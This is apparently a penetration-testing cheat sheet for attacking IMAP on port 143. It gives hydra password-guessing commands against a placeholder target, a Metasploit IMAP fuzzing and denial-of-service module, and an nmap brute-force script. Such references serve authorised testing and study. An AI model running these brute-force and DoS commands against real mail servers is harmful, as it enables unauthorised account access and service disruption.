 # 143 - IMAP

## Dictionary Attack 

    $ hydra -l sysadmin -P /usr/share/wordlists/metasploit/unix_passwords.txt [TARGET_IP] imap
    $ hydra -l admin -P /usr/share/wordlists/metasploit/unix_passwords.txt [TARGET_IP] imap
    $ hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f [TARGET_IP] imap -V

## Available Metasploit Options
Imap Vuln DoS Scan 

    use auxiliary/dos/windows/imap/fuzz_imap

## Nmap Brute Force 

    $ nmap -sV --script imap-brute -p 143 [TARGET_IP]
